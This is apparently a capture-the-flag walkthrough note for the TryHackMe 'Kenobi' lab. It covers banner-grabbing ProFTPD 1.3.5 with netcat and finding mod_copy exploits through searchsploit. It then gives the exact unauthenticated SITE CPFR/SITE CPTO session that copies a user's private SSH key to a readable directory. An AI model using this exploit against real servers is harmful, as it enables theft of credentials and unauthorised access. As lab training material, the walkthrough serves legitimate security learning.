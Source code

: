 Let's get the version of ProFtpd. Use [[Netcat]] to connect to the machine on the [[FTP]] port :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ nc 10.10.157.52 -p 21 ftp
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.157.52]


```

### Searchsploit

We can use [[Searchsploit]] to find exploits for a particular software version.

[[Searchsploit]] is basically just a command line search tool for exploit-db.com :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ searchsploit ProFTPD 1.3.5         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Me | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                        | linux/remote/36742.txt
------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html).

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

# [[Exploit]]

We're now going to copy Kenobi's private key using **SITE CPFR and SITE CPTO** commands .

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Kenobi]
└─$ nc 10.10.157.52 -p 21 ftp
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.157.52]
SITE CPFR /home/kenobi/.ssh//id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
